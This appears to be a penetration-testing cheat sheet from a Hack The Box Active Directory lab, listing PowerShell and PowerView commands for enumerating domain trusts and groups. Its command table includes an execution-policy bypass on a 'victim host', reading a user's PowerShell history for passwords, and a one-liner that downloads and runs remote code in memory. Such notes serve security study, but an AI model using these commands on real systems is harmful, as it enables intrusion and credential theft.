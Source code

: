 Enumerate domain trust relationships

```powershell

PS C:\htb> Import-Module activedirectory

#Enumerate domain trust relationships (built-in powershell cmdlet)
PS C:\htb> Get-ADTrust -Filter *

#Powerview Enumerate domain trust relationships
PS C:\htb> Get-DomainTrust 

# perform a domain trust mapping
PS C:\htb> Get-DomainTrustMapping

#Checking Users in the Child Domain using Get-DomainUser
PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

#numerate groups with users that do not belong to the domain, also known as foreign group membership
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

#Query trust relationships
C:\htb> netdom query /domain:inlanefreight.local trust
# query domain controlores
C:\htb> netdom query /domain:inlanefreight.local dc
# query workstations and servers
C:\htb> netdom query /domain:inlanefreight.local workstation
```

**Harnessing PowerShell** 

| **Cmd-Let** | **Description** |
| --- | --- |
| `Get-Module` | Lists available modules loaded for use. |
| `Get-ExecutionPolicy -List` | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host. |
| `Set-ExecutionPolicy Bypass -Scope Process` | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. |
| `Get-ChildItem Env: | ft Key,Value` | Return environment values such as key paths, users, computer information, etc. |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |

# Micelaneous

```python
#Convert a UTF-16LE to UTF-8 compatible with Linux 
iconv -f UTF-16LE -t UTF-8 Applockerpolicy.txt -o Applockerpolicy2.txt
```

# Tools
